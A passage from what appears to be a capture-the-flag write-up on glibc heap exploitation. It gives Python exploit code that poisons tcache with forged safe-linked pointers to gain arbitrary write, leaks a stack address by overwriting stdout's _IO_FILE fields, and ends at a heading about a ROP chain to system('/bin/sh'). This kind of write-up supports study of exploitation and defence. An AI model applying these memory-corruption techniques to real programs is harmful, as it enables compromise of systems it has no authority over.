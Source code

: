 
## 6. Poison tcache (using forged safe-linked pointers) to gain arbitrary-write

```py
arb_free(mmap_payload_base+16)
arb_free(mmap_payload_base+16 + 0x20 + 0x40) # chunk 2
arb_free(mmap_payload_base+16 + 0x20) # chunk 1

def protect(cur_chunk_addr, link_val):
    return (cur_chunk_addr >> 12) ^ link_val

write_where = 0x...
write_what = b'...'

# Use the 0x220 chunk to overwrite the metadata of (currently free'd) chunk 1
create_not_secret(10, b"E" * 0x18 + p64(0x41) + p64(protect(mmap_payload_base, write_where)) + b"\n", l=0x210) # protected

# first 0x40 chunk is chunk 1
create_not_secret(0, b"\n", l=0x38)

# the second 0x40 chunk returned is our write_where address!
create_not_secret(1, write_what, l=0x38)
```

## 7. Stack leak using stdout file struct (FSOP)

I used the [information leak technique from faraz.faith's blog](https://faraz.faith/2020-10-13-FSOP-lazynote/#information-leak). It basically consists of overwriting some pointers in the [`_IO_FILE` structure](https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L49) so that it will try to 'catch up' and print out `(_IO_write_ptr - _IO_write_base)` bytes from `_IO_write_base`. 

I tried just moving `_IO_write_ptr` a bit higher, but there didn't seem to be any stack pointers nearby. So I ended up finding a stack pointer (in the `environ` global) and just pointing _IO_write_ptr and friends relative to that.

```py
# determined experimentally
stack_leak_addr = (leak_revealed + 0x7520) & ~0xff

# fields are listed at https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L49
# we had to include the flags field (unchanged 0xfbad2887) because malloc only returns aligned pointers
leak = create_not_secret(1, p64(0xfbad2887)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr+0x2000)+p64(stack_leak_addr), l=0x38)
leak = leak.split(b"Content:\n")[1][:8]
stack_leak = u64(leak)
```

## 8. Use arbitrary-write again, ROP to call system("/bin/sh")
